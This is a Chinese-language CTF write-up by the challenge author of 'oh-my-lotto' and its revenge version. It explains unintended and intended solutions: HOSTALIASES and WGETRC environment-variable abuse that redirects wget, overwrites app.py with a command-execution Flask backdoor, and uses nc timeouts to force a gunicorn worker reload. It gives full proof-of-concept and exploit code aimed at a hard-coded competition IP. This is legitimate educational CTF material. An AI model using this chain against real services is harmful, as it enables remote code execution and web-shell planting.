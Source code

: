 # web-oh-my-lotto&revenge-ZH

## 写在前面的话

因为考虑不周全，这个题可能没给师傅们带来比较好的做题体验，实在抱歉，这里想就这个题给师傅们做一些解释。第一个题被非预期以后，在改revenge的时候思考了很多种方式，比如把`WGETRC`放到黑名单里面，或者是给附件用第一个题的flag加锁，但为了不泄露第一个题的解法，最终我还是选择不把`WGETRC`ban掉，只是把获取flag的方式限制为了必须要RCE才能获取，但同时也由于一些权限管理等问题，使得利用`WGETRC`同样可以解决revenge，这里确实是我没考虑周全，但确实也从师傅们的非预期学到了很多东西，下面我将还原一下我已知的非预期和预期解，希望能带给你新的知识。:)

## 非预期解

### oh-my-lotto

* 利用`WGETRC`设置`http_proxy`代理到自己服务器，下载一个和`forecast`一样的文件，可以获得flag。

* 首先获得一次lotto的结果，然后将这个结果作为forecast上传，利用`PATH`，使得wget异常，这样获取到的lotto就能与forecast相等，即可获得flag。

### oh-my-lotto-revenge

* 利用`WGETRC`配合`http_proxy`和`output_document`，覆盖本地的wget应用，然后利用wget完成RCE。

* 利用`WGETRC`配合`http_proxy`和`output_document`，写入SSTI到templates目录，利用SSTI完成RCE。

## 预期解

根据附件可以在本地搭建题目运行环境，根据源码中`app.py`所述逻辑，当上传的`forecast.txt`文件内容与`lotto_result.txt`文件内容相符时，可以获得flag，lotto容器中生成`lotto_result.txt`使用的是`secrets`库，该库函数使用安全的随机数生成方法，理论上不存在被预测的风险。

发现在进行lotto猜测的时候可以运行输入一次环境变量，该环境变量会被传递给`os.system('wget --content-disposition -N lotto')`，同时环境变量会经过`safe_check`函数检查

```
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s or 'PS' in s:
        return False
    return True
```

一些常见的环境变量利用方法都已经被禁止，通过翻阅Linux环境变量文档`http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html`在Network Settings中发现有`HOSTALIASES`可以设置shell的hosts加载文件，利用`/forecast`路由可以上传待加载的hosts文件，将`wget --content-disposition -N lotto`发向lotto的请求转发到自己的域名例如如下hosts文件

```
# hosts
lotto mydomain.com
```
同时注意到wget请求添加了`--content-disposition -N`参数，说明请求的保存文件名将由服务方提供方指定的文件名决定，并可以覆盖原有的文件，那我们在自己的`mydomain.com`域名的80端口提供一个文件下载的功能，将返回文件名设置为`app.py`就可以覆盖当前题目的`app.py`文件，参考POC

```
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

此时发现已经覆盖了题目的`app.py`，但并不能直接RCE，因为题目使用gunicorn部署，`app.py`在改变的情况下并不会实时加载。但gunicorn使用一种`pre-forked worker`的机制，当某一个worker超时以后，就会让gunicorn重启该worker，让worker超时的POC如下

```
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

最终worker重新加载`app.py`，就可以完成RCE了，读取flag即可。参考完整POC如下


```
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```
